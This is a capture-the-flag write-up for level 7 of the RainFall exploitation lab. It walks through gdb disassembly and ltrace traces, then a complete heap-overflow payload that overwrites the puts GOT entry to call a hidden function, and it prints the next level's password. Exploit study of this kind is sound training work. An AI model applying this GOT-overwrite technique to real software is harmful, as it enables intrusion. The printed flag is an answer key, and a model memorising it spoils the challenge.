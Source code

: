# Level 7

Once logged in, you will see a binary `level7`.

```
$ ssh localhost -p 4242 -l level7
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level7@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
level7@RainFall:~$
level7@RainFall:~$ ls
level7
```

Let's run this and see what it does.

```
level7@RainFall:~$ ls
level7
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 aaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
level7@RainFall:~$
```

It gives segmentation fault, and we want to avoid that, so let's take a look at the binary.

```
level7@RainFall:~$ gdb ./level7
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level7/level7...(no debugging symbols found)...done.
gdb-peda$ disass main
Dump of assembler code for function main:
   0x08048521 <+0>:	push   ebp
   0x08048522 <+1>:	mov    ebp,esp
   0x08048524 <+3>:	and    esp,0xfffffff0
   0x08048527 <+6>:	sub    esp,0x20
   0x0804852a <+9>:	mov    DWORD PTR [esp],0x8
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    DWORD PTR [esp+0x1c],eax
   0x0804853a <+25>:	mov    eax,DWORD PTR [esp+0x1c]
   0x0804853e <+29>:	mov    DWORD PTR [eax],0x1
   0x08048544 <+35>:	mov    DWORD PTR [esp],0x8
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    edx,eax
   0x08048552 <+49>:	mov    eax,DWORD PTR [esp+0x1c]		; set eax to [esp+0x1c]
   0x08048556 <+53>:	mov    DWORD PTR [eax+0x4],edx		; set eax+0x4 to edx
   0x08048559 <+56>:	mov    DWORD PTR [esp],0x8
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>		; malloc (esp = 8)
   0x08048565 <+68>:	mov    DWORD PTR [esp+0x18],eax		; return value of malloc allocated to [esp+0x18]
   0x08048569 <+72>:	mov    eax,DWORD PTR [esp+0x18]		; eax = [esp+0x18]
   0x0804856d <+76>:	mov    DWORD PTR [eax],0x2			; eax = 2;
   0x08048573 <+82>:	mov    DWORD PTR [esp],0x8
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>		; malloc(esp = 8);
   0x0804857f <+94>:	mov    edx,eax						; return value of eax to edx;
   0x08048581 <+96>:	mov    eax,DWORD PTR [esp+0x18]
   0x08048585 <+100>:	mov    DWORD PTR [eax+0x4],edx
   0x08048588 <+103>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804858b <+106>:	add    eax,0x4
   0x0804858e <+109>:	mov    eax,DWORD PTR [eax]			; eax = 4
   0x08048590 <+111>:	mov    edx,eax
   0x08048592 <+113>:	mov    eax,DWORD PTR [esp+0x1c]		; eax = a[1]
   0x08048596 <+117>:	mov    eax,DWORD PTR [eax+0x4]
   0x08048599 <+120>:	mov    DWORD PTR [esp+0x4],edx
   0x0804859d <+124>:	mov    DWORD PTR [esp],eax
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080485a8 <+135>:	add    eax,0x8
   0x080485ab <+138>:	mov    eax,DWORD PTR [eax]
   0x080485ad <+140>:	mov    edx,eax
   0x080485af <+142>:	mov    eax,DWORD PTR [esp+0x18]
   0x080485b3 <+146>:	mov    eax,DWORD PTR [eax+0x4]
   0x080485b6 <+149>:	mov    DWORD PTR [esp+0x4],edx
   0x080485ba <+153>:	mov    DWORD PTR [esp],eax
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    edx,0x80486e9
   0x080485c7 <+166>:	mov    eax,0x80486eb
   0x080485cc <+171>:	mov    DWORD PTR [esp+0x4],edx
   0x080485d0 <+175>:	mov    DWORD PTR [esp],eax
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    DWORD PTR [esp+0x8],eax
   0x080485dc <+187>:	mov    DWORD PTR [esp+0x4],0x44
   0x080485e4 <+195>:	mov    DWORD PTR [esp],0x8049960
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	mov    DWORD PTR [esp],0x8048703
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    eax,0x0
   0x08048601 <+224>:	leave
   0x08048602 <+225>:	ret
End of assembler dump.
gdb-peda$
```

By analyzing the main function, the main function takes arguments(`argv`) from `stdin`, takes and allocates into two local variables. Afterwards, the function `fgets` with arguments will be called and stores the value into the global variable `c(0x08049960)`, and the string `~~` will be printed out.

But the goal is to get the flag, and the program doesn't seem to print out flags without an exploit.

```
level7@RainFall:~$ ./level7 aaaa bbbb
~~
level7@RainFall:~$
```

Let's see if there is any other function declared.

```
gdb-peda$ info functions
All defined functions:
[...]
0x080484f4  m
0x08048521  main
[...]
```

The funciton `m` is here, so let's see the assembly.

```
gdb-peda$ disass m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   ebp
   0x080484f5 <+1>:	mov    ebp,esp
   0x080484f7 <+3>:	sub    esp,0x18
   0x080484fa <+6>:	mov    DWORD PTR [esp],0x0
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    edx,0x80486e0
   0x0804850b <+23>:	mov    DWORD PTR [esp+0x8],eax
   0x0804850f <+27>:	mov    DWORD PTR [esp+0x4],0x8049960
   0x08048517 <+35>:	mov    DWORD PTR [esp],edx
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave
   0x08048520 <+44>:	ret
End of assembler dump.
```

By decompiling the assembly, the function calls out `time`, and prints out the value from given parameters.

During the first call to `strcpy`, we can overwrite the address used as destination for the second `strcpy` (`second[1]`) => we want to overwrite function puts() GOT address to call function `m` instead.

In order to do, it is necessary to find out the offset.

By using a [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), it is easy to find the offset.

By using the 'pattern generator', the offset is 20

```
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
__libc_start_main(0x8048521, 2, 0xbffff744, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                 = 0x0804a008
malloc(8)                                 = 0x0804a018
malloc(8)                                 = 0x0804a028
malloc(8)                                 = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

After having figured out how to overwrite the `second[1]` pointer in the first part of this exploit, we then need to overwrite the `puts` GOT (Global Offset Table) address with a pointer to `m`. (See level 5 walkthrough for an explanation of GOT)

In short, instead of calling `puts`, we want to call `m`. The address for `puts` is cached on the GOT and we fill that cache before the real address gets checked.

The address for `puts` can be easily found on gdb, anc can be checked by using `ltrace`.

```
All functions matching regular expression "puts":

Non-debugging symbols:
0x08048400  puts
0x08048400  puts@plt
gdb-peda$ disass puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    DWORD PTR ds:0x8049928    // same as 0x08049928
   0x08048406 <+6>:	push   0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
```

Here's our program with half of the exploit complete, writing `"AAAA"` into the pointer for `puts`.

```
level7@RainFall:~$ ltrace ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') AAAA
__libc_start_main(0x8048521, 3, 0xbffff774, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                 = 0x0804a008
malloc(8)                                 = 0x0804a018
malloc(8)                                 = 0x0804a028
malloc(8)                                 = 0x0804a038
strcpy(0x0804a018, "AAAAAAAAAAAAAAAAAAAA(\231\004\b") = 0x0804a018
strcpy(0x08049928, "AAAA")                = 0x08049928
fopen("/home/user/level8/.pass", "r")     = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

As found out above, the address for function `m()` is `0x080484f4`, so the payload needs to be set up as below:

```
    padding (20 bytes) + GOT address (4 bytes)   +   m() function address (4 bytes)
                     1st arg                                   2nd arg
```

And voilà our completed exploit:

```
level7@RainFall:~$ ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9 - 1654670080
level7@RainFall:~$
```
